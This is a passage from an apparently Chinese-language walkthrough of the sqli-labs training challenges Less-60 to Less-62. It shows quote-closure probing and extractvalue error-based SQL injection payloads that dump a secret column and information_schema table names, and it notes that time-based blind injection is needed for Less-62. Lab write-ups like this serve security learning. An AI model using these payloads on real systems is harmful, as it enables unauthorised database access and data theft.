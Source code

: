![image-20201113110454981](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113110454981.png)

列名

id,sessid,secret_GZ7I,tryy

?id=-1 and extractvalue(1,concat(0x7e,(select group_concat(secret_GZ7I) from Q0RQXNZCIP),0x7e))--+

![image-20201113110631209](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113110631209.png)

ovguOdpjQX4H3cDdcgN681Sq

![image-20201113110655376](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113110655376.png)

## 0X40Less-60

?id=1'  正常  

?id=1) 正常   

?id=1" 报错  说明存在“闭合

?id=1" --+报错

?id=1" and 1=1 --+ 报错

?id=1" and "1"="1   正常

?id=1" and ”1“=”2   不正常

判断使用（“”）闭合

利用手法与上述相同

更改闭合

## 0X41Less-61

更改闭合

?id=1'))

payload:

?id=-1')) and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e))--+

其余相同

## 0X42Less-62

?id=1  正常 

?id=1' 不正常 无报错 

……均无报错信息

延时注入
